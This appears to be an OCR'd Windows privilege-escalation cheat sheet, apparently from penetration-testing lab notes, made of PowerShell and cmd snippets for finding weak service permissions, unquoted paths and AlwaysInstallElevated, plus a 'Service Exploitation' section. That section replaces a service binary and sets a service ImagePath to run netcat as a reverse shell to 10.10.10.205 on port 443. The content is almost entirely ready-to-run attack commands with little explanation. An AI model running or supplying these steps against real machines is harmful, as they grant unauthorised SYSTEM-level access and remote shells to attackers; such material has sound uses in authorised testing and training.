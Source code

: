 Identify privilege escalation opportunities:

```powershell
# Run SharpUp
.SharpUp.exe audit

# Check service binary permissions
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Check Registry ACLs
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

# Search for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\" | findstr /i /v """

# Check AlwaysInstallElevated
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Windows Exploit Suggester
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
```

### Service Exploitation

Modify services for privilege escalation:

```powershell
# Replace service binary
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Modify service path
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

### Process and Service Enumeration

Enumerate running processes and services:

```powershell
# Enumerate process
get-process -Id 3324

# Enumerate services
get-service | ? {$_.DisplayName -like 'Druva*'}

# Check startup programs
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl

# Check local users
Get-LocalUser

# Check computer description
Get-WmiObject -Class Win32_OperatingSystem | select Description
```
